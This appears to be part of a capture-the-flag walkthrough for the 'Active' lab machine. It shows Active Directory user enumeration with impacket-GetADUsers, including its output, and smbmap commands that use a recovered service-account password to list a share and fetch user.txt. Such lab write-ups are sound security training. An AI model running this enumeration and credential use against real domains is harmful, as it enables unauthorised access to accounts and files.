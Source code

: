 ## Getting AD Users

```bash
$ impacket-GetADUsers -all active.htb/svc_tgs -dc-ip 10.10.10.100 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Querying 10.10.10.100 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 16:06:40.351723  2021-01-21 13:07:03.723783 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 15:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 17:14:38.402764  2018-07-21 11:01:30.320277
```

## Enumerating with user svc_tgs

![[Pasted image 20211124112053.png]]

### Path Users

```bash
$ smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users
```
![[Pasted image 20211124112440.png]]

### Getting flag user.txt

```bash
$ smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt
```
![[Pasted image 20211124112752.png]]